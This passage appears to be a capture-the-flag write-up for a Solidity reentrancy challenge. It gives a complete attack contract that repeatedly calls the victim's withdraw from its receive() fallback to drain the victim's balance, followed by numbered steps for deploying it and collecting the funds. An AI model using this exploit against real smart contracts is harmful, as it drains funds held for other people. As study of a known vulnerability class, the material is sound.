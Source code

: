 ### Attack!

```solidity
contract AttackReentrance {
    Reentrance private immutable i_reentrance;
    address payable private immutable i_owner;
    uint256 constant private AMOUNT = 500000000000000;

    // Fund Contract at init
    constructor(address payable reentranceAddress) public payable {
        i_reentrance = Reentrance(reentranceAddress);
        i_owner = msg.sender;
    }

    modifier onlyOwner {
        require(msg.sender == i_owner);
        _;
    }

    function contractBal() public view returns(uint256) {
        return address(this).balance;
    }

    function reentranceContractBal() public view returns(uint256) {
        return address(i_reentrance).balance;
    }

    function withdraw() external payable onlyOwner {
        address payable withdrawAddress = payable(msg.sender);
        require(withdrawAddress != payable(address(0)));
        (bool success,) = withdrawAddress.call{value: address(this).balance}("");
        require(success);
    }

    function attack() public {
        i_reentrance.donate{value: AMOUNT}(address(this));
        i_reentrance.withdraw(AMOUNT);
    }

    receive() external payable {
        if (address(i_reentrance).balance != 0) {
            i_reentrance.withdraw(AMOUNT);
        }
    }
}
```

1. Since the contract only has 0.001 ether, I am going to transfer it half the amount.
2. Deploy this script, with value 0.007 ether to fund this contract (leave some gas fees).
3. Call `attack()`, it will kick start the recursive.
4. `attack()` will deposit some funds to the victim
5. `attack()` will call `victim.withdraw()` to withdraw `AMOUNT` donated.
6. Victim will call `receive()`
7. `receive()` will call `victim.withdraw()`
8. Victim will not realize the transfer is completed, it will send the funds again.
9. Victim will repeat until it's out of funds.
10. Call `AttackReentrance.withdraw()` function to take out the funds.
11. Enjoy other people's hard earned money. (Don't)
